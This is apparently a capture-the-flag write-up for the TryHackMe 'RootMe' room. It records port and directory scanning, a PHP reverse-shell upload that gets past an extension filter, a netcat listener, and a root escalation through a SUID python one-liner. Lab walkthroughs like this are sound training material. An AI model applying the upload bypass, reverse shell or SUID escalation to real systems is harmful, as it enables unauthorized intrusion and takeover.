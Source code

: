 # [RootMe | TryHackMe](https://tryhackme.com/room/rrootme)

Gain root access .

# SCANNING STEPS :

## STEP 1 :

Checking **Source Code** **Nothing found**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/home.css">
    <script src="js/maquina_de_escrever.js"></script>
    <title>HackIT - Home</title>
</head>
<body>
    <div class="main-div">
        <p class="title">root@rootme:~#</p>
        <p class="description">
            Can you root me?
        </p>
    </div>

    <!--  -->

    <script>
        const titulo = document.querySelector('.title');
        typeWrite(titulo);
    </script>
</body>
</html>
```

Checking for **robots.txt** **Not found**

```bash
Not Found

The requested URL was not found on this server.
Apache/2.4.29 (Ubuntu) Server at / Port 80
```

## STEP 2 :

Scanning **Ports**

```bash
nmap -sV -sC $IP


Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-21 22:12 CET
Nmap scan report for $ip
Host is up (0.086s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|_  256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.68 seconds

```

Found **2** Ports :

**80 HTML**

**22 SSH**

Scan the machine, how many ports are open? 

**2**



What version of Apache is running?

**2.4.29**

What service is running on port 22?

**SSH**

## STEP 3 :

Scanning url and paths

```bash
*:~/Desktop/THM/RootMe-THM$ gobuster -u $IP/ -w *.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.242.236/
[+] Threads      : 10
[+] Wordlist     : common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/02/21 22:13:07 Starting gobuster
=====================================================
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
/uploads (Status: 301)
=====================================================
2022/02/21 22:13:24 Finished
=====================================================

```

Found **2** interesting paths :

**/panel**

**/uploads**



What is the hidden directory?

**/panel**


# EXPLOITING STEPS :

Trying to upload php reverse shell 

## STEP 1 :

Open port 4444 and start listening

```bash
*:~/Desktop/THM/RootMe-THM$ nc -lvnp 4444
Listening on 0.0.0.0 4444

```

## STEP 2 :

Scanning upload request with burp

```http
POST /panel/ HTTP/1.1
Host: x
Referer: x/panel/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=o39v0nr3qpljjgcj4n7al32agr
Connection: close

------WebKitFormBoundary2A5aQD4dVXliJGPo
Content-Disposition: form-data; name="fileUpload"; filename="exploit.php"
Content-Type: application/x-php
```

There was  a **Restriction** on **php** files.

```bash
PHP não é permitido!
```

## STEP 3

Checking if the restriction only on **"php"** word.

```text
PHP File Extensions

File extension and Tags In order for the server to identify our PHP files and scripts, we must save the file with the “.php” extension. Older PHP file extensions include

    .phtml
    .php3
    .php4
    .php5
    .phps

PHP was designed to work with HTML, and as such, it can be embedded into the HTML code.
```

**All other file types accepted** .

## STEP 4 :

Finding **user.txt**

```bash
Connection received on x 52194

$ find -name 'user.txt'
./var/www/user.txt

$ cat ./var/www/user.txt

```

**FOUND USER KEY**

## STEP 5 :

Checking Directories :

```bash
find / -user root -perm /4000

/usr/bin/python
$ which python
/usr/bin/python

```


Search for files with SUID permission, which file is weird?

**/usr/bin/python**

## STEP 6 :

Getting Root access via python :

```bash
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
$ whoami
root
$ find -name 'root.txt'

./root/root.txt
# cat ./root/root.txt

```

**FOUND THE ROOT KEY**
